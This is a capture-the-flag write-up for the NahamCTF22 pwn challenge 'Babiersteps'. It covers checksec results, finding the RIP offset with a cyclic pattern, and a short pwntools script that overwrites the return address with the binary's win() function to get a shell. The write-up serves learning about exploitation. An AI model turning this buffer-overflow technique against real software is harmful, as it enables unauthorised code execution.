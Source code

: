```yaml
---
title: "Babiersteps"
date: 2022-05-01
description: "A classic ret2win challenge on a 64-bit binary, overflow RIP with win() address to get flag."
draft: false
enableToc: false
enableTocContent: false
tags:
- pwn
- NahamCTF22
---
```


## Checksec
```
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Full
```
We only care about the stack canary as we will be overflowing RIP to control execution flow, and thankfully It's disabled.

## Exploitation
### 1. RIP Control

We overflow the binary with a cyclic pattern, however, for this being a 64-bit binary we can't overflow RIP with a non-canonical address.

{{< expand "Canonical Address" >}}
An address is said to be canonical in the 64-bit world when the upper 16 bits are copies of the 48th bit.
{{< /expand >}}

The easiest way to find the RIP offset without overflowing RIP is by breaking at the `ret` instruction and searching for our pattern in `rsp`.

![](./babiersteps.png)

<center>

![](/img/ach_offset.png)

</center>

### 2. Writing our exploit
Now we have all the pieces that we need to build our exploit, we will do the rest straight from pwntools.

```python
from pwn import *

context.binary = e = ELF("./babiersteps")
context.encoding = 'latin'

if args['REMOTE']:
    pass
else:
    io = e.process()

OFFSET = 120
io.clean()
io.fit(
    {120: e.sym.win}
)
io.interactive()
```

![](./shell.png)

<center>

![](/images/mc/ach_shell.png)

</center>
